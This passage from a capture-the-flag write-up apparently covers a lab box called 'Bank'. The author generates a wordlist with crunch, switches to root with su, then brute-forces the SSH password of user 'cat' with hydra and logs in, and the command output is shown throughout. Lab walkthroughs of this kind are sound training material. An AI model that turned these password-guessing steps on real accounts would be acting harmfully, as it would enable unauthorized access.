 Hmm...

**After banging my head against the wall, I found the solution:**
```
patrick@ubuntu:~/.bank_work/bank/reminder$ crunch 1 6 prisoner
Crunch will now generate the following amount of data: 937923 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: {Redacted} 
^CCrunch ending at
```

**Let's login as root!**
```
patrick@ubuntu:~/.bank_work/bank/reminder$ su root
Password: 
root@ubuntu:/home/patrick/.bank_work/bank/reminder# whoami;hostname;id;ip a
root
ubuntu
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.4/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::72:4dff:feef:1b1f/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

### 3. patrick to cat

**Since we found a user called `cat`, let's brute force that account's password via `hydra`!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# hydra -l 'cat' -P list.txt ssh://$RHOSTS
[...]
[22][ssh] host: 10.10.53.4   login: cat   password: {Redacted}
```

**Found it! Let's login as `cat`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# ssh cat@$RHOSTS         
cat@10.10.53.4's password: 
[...]
cat@ubuntu:~$ whoami;hostname;id;ip a
cat
ubuntu
uid=1001(cat) gid=1001(cat) groups=1001(cat)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
```